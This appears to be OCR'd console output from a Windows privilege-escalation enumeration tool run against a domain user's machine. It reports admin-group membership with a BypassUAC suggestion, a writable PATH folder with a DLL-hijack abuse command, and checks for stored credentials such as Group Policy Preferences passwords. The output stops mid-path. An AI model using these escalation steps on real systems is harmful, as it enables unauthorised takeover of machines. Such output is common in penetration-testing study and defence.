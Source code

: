 ```

[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.


[*] Checking for unquoted service paths...


[*] Checking service executable and argument permissions...


[*] Checking service permissions...


[*] Checking %PATH% for potentially hijackable DLL locations...


ModifiablePath    : C:\Users\nmartha\AppData\Local\Microsoft\WindowsApps
IdentityReference : SHIRE\nmartha
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\nmartha\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\nmartha\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'





[*] Checking for AlwaysInstallElevated registry key...


[*] Checking for Autologon credentials in registry...


[*] Checking for modifidable registry autoruns and configs...


[*] Checking for modifiable schtask files/configs...


[*] Checking for unattended install files...


[*] Checking for encrypted web.config strings...


[*] Checking for encrypted application pool and virtual directory passwords...


[*] Checking for plaintext passwords in McAfee SiteList.xml files....




[*] Checking for cached Group Policy Preferences .xml files....


Changed   : [BLANK]
UserNames : [BLANK]
NewName   : [BLANK]
Passwords : [BLANK]
File      : C:\ProgramData\Microsoft\Group 
```